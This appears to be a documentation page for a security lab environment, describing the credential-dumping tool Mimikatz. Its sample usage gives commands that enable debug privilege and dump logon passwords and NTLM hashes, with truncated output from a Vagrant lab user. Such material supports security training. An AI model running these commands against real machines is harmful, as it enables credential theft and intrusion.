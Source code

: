 ```yaml
---
title: "Mimikatz"
date: 2020-08-13T17:21:36-07:00
draft: false
weight: 8
---
```


![](../../images/mimikatz.png)

## Description
Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets. 

## Purpose

## Configuration Details

## Sample Usage
Start command prompt, navigate to Mimikatz directory and start Mimikatz console:
```bash
cd c:\tools\mimikatz\x64\ && mimikatz.exe
```
Debugger mode
```bash
mimikatz # privilege::debug
Privilege "20" OK
```
Module sekurlsa - Dumping logon passwords / NTLM hash
```bash
mimikatz # sekurlsa::logonPasswords

Authentication Id : 0 ; 231234 (00000000:0003a1a7)
Session : Interactive from 1
UserName : Vagrant
....
```

## Data Location

This tool is located in **C:\Tools\mimikatz\x64\\**.

## External Links
[Mimikatz on Github](https://github.com/gentilkiwi/mimikatz)